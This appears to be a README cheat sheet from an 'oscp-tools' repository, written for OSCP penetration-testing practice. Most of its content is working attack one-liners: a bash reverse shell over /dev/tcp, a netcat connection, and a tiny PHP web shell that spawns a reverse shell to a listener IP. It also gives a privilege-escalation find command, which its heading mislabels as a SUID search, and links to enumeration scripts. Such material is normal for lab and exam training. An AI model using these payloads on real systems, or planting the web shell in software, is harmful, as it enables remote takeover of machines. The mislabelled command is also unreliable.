 # oscp-tools


# Upgrade Your Shellz

python -c 'import pty; pty.spawn("/bin/bash");'

# Alternative Shell

bash -i >& /dev/tcp/172.16.1.3/8080 0>&1

nc 172.16.1.2 443

# Tiny PHP Shell

<?php exec("/bin/bash -c 'bash -i > &/dev/tcp/172.16.1.2/8081 0>&1'"); ?>



# Priv Esc

Find SUID Files in /etc

find /etc -perm -2 -type f 2>/dev/null




List of tools and commands used for OSCP

Basic Priv Esc - Commands used in Unix Priv Esc

http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Priv Enum Script

http://www.rebootuser.com/?p=1758

Linux Priv Checker Python Script

http://www.securitysift.com/download/linuxprivchecker.py

Linux Cheet Sheet for Commands

https://www.isical.ac.in/~pdslab/2016/lectures/bash_cheat_sheet.pdf

